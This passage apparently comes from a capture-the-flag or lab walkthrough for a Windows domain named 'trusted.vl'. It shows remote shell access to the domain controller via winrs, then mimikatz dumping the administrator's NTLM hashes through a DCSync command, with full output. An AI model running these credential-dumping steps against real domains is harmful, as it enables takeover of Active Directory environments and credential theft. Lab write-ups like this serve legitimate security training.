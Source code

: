     C:\ProgramData>winrs -r:trusteddc.trusted.vl cmd
    winrs -r:trusteddc.trusted.vl cmd

    Microsoft Windows [Version 10.0.20348.887]
    (c) Microsoft Corporation. All rights reserved.

    C:\Users\Administrator.LAB>whoami

    C:\Users\Administrator.LAB> 
    whoami
    lab\administrator
    hostname
    trusteddc
GRAB ADMINISTRATOR HASH
    .\mimikatz.exe

    .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
    .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
    ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
    ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
    '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
    '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

    mimikatz # 
    mimikatz # privilge::debug
    mimikatz # lsadump::dcsync /user:trusted\administrator

    mimikatz # 
    [DC] 'trusted.vl' will be the domain
    [DC] 'trusteddc.trusted.vl' will be the DC server
    [DC] 'trusted\administrator' will be the user account
    [rpc] Service  : ldap
    [rpc] AuthnSvc : GSS_NEGOTIATE (9)

    Object RDN           : Administrator

    ** SAM ACCOUNT **

    SAM Username         : Administrator
    Account Type         : 30000000 ( USER_OBJECT )
    User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
    Account expiration   : 1/1/1601 12:00:00 AM
    Password last change : 9/18/2022 8:50:53 PM
    Object Security ID   : S-1-5-21-3576695518-347000760-3731839591-500
    Object Relative ID   : 500

    Credentials:
    Hash NTLM: 15db914be1e6a896e7692f608a9d72ef
        ntlm- 0: 15db914be1e6a896e7692f608a9d72ef
        ntlm- 1: 86a9ee70dfd64d20992283dc5721b475
        lm  - 0: 1a28b083f0e83167bec07d185d492a67

END
